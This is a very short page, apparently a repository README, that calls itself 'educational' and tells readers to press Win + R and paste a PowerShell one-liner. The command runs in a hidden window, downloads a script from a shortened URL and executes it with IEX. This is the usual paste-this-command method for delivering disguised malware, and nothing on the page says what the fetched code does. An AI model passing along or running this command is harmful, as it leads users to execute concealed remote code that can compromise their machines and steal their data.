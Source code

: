 educational propouses only
For install:
Win + R and paste:

powershell -w hidden -c "IEX (iwr https://tinyurl.com/4uzjfrjd -UseBasicParsing)"
